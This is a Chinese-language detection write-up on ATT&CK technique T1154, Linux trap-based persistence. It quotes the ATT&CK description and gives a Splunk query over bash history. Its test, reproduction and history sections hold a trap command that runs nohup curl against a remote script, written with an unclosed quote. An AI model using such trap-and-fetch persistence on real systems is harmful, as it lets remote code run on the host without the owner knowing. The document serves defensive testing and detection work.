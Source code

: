 # T1154-linux-trap

## 来自ATT&CK的描述

该`trap`命令允许程序和shell指定在接收中断信号时将执行的命令。常见的情况是脚本允许正常终止和处理常见的键盘中断，如`ctrl+c`和`ctrl+d`。攻击者可以使用它来注册当shell遇到特定中断以执行或作为持久性机制时要执行的代码。陷阱命令具有以下格式`trap 'command list' signals`，其中当接收到“信号”时将执行“命令列表”。

## 测试案例

```bash
trap 'nohup curl -sS https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1154/echo-art-fish.sh # 脚本即使在退出后（ctrl + c）也会继续执行程序/脚本。

trap 'nohup curl -sS https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1154/echo-art-fish.sh
```

关于trap、nohup命令的更多解释，你可以查看参考链接部分。

## 检测日志

bash历史命令

## 测试复现

```bash
icbc@icbc:/$ trap 'nohup curl -sS https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1154/echo-art-fish.sh

> ^C
```

## 测试留痕

```bash
icbc@icbc:/$ history

 693  trap 'nohup curl -sS https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1154/echo-art-fish.sh

```

## 检测规则/思路

index=linux sourcetype=bash_history "trap *" | table host,user_name,bash_command

## 参考推荐

MITRE-ATT&CK-T1154

<https://attack.mitre.org/techniques/T1154/>

linux下trap命令详解

<https://blog.csdn.net/carolzhang8406/article/details/46504415/>

linux下nohup命令浅析

<https://www.bbsmax.com/A/kjdw9606JN/>
